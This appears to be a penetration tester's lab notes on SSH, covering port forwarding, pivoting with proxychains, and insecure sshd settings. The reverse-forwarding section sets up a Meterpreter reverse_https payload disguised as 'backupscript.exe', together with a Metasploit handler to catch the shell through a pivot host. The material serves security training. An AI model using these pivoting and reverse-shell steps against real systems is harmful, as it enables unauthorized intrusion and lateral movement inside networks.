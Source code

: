 Port: 22
Config file: `/etc/ssh/sshd_config`

# Port Forwarding
## Local Port Forwarding
The `-L` flag tells the SSH client to request the SSH server to forward all the data we send via the port `<INTERNAL-PORT>` to `localhost:<REMOTE-SYSTEM-PORT>`
```shell-session
$ ssh -L <INTERNAL-PORT>:localhost:<REMOTE-SYSTEM-PORT> <USER>@<IP>
$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```
With this we can, for example, scan internal ports which would have been otherwise inaccessible from our base system:
```shell-session
$ nmap -sCV -p <INTERNAL-PORT> localhost
```
## Dynamic Port Forwarding
If the remote system has additional NICs and connected to other networks, we can't perform scans directly as our system does not know that network path. We can start a #SOCKS listener on our local host and then configure SSH to forward that traffic via SSH to the network (for e.g. 172.16.5.0/23) after connecting to the target host
1. Enable SOCKS listener in `/etc/proxychains.conf`:
```shell-session
$ tail -1 /etc/proxychains.conf
socks4 	127.0.0.1 <LOCAL-PORT>
```
2. Forward all data from the `LOCAL-PORT` via SSH client to remote system:
```shell-session
$ ssh -D <LOCAL-PORT> <USER>@<IP>
```
3. Run commands through remote system via attacking host through #proxychains to access internal networks remotely:
```shell-session
$ proxychains <COMMAND>
$ proxychains nmap -v -sn 172.16.5.1-200
```
## Reverse Port Forwarding
The `-R` flag asks the Ubuntu server to listen on `<targetIPaddress>:8080` and forward all incoming connections on port `8080` to our msfconsole listener on `0.0.0.0:8000` of our `attack host`.
To get a reverse shell from, let's say a remote Windows system on a different network from pivot Ubuntu system, we could create a Meterpreter HTTPS payload using `msfvenom`, but the `LHOST` would be Ubuntu server's host IP address (`172.16.5.129`). We will use port 8080 on Ubuntu server to forward all of our reverse packets to our attack hosts' 8000 port, where our Metasploit listener is running.
1. Create HTTPS Payload
```shell-session
1zverg@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```
2. Configure & Start the multi/handler
```shell-session
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```
3. [[File Transfer|Transfer]] payload from attacking host to remote Ubuntu to remoter Windows
4. SSH Remote Port Forward From `Ubuntu:8080` to `MSF:8000`
```shell-session
1zverg@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
5. Execute the payload on remoter Windows host and wait for a connection in MSF.
>Our Meterpreter session should list the incoming connection being from a local host itself (`127.0.0.1`) since we are receiving the connection over the `local SSH socket`, which created an `outbound` connection to the Ubuntu server. Issuing the `netstat` command can show us that the incoming connection is from the SSH service.
### Useful Flags
- `-N`: Do not prompt the login shell.
# Dangerous Settings
| **Setting**                  | **Description**                             |
| ---------------------------- | ------------------------------------------- |
| `PasswordAuthentication yes` | Allows password-based authentication.       |
| `PermitEmptyPasswords yes`   | Allows the use of empty passwords.          |
| `PermitRootLogin yes`        | Allows to log in as the root user.          |
| `Protocol 1`                 | Uses an outdated version of encryption.     |
| `X11Forwarding yes`          | Allows X11 forwarding for GUI applications. |
| `AllowTcpForwarding yes`     | Allows forwarding of TCP ports.             |
| `PermitTunnel`               | Allows tunneling.                           |
| `DebianBanner yes`           | Displays a specific banner when logging in. |
# Tips
## Accepted Authentication
use `-v` to check:
```bash
ssh -v cry0l1t3@10.129.14.132

OpenSSH_8.2p1 Ubuntu-4ubuntu0.3, OpenSSL 1.1.1f  31 Mar 2020
debug1: Reading configuration data /etc/ssh/ssh_config 
...SNIP...
debug1: Authentications: publickey,password,keyboard-interactive
```
## Preferred Authentication
use `PreferredAuthentications=<help-above>` 
# Tools
- [[SSH-Audit]]
- [[MSFConsole#Modules#SSH User Enumeration|Metasploit - SSH User Enumeration]]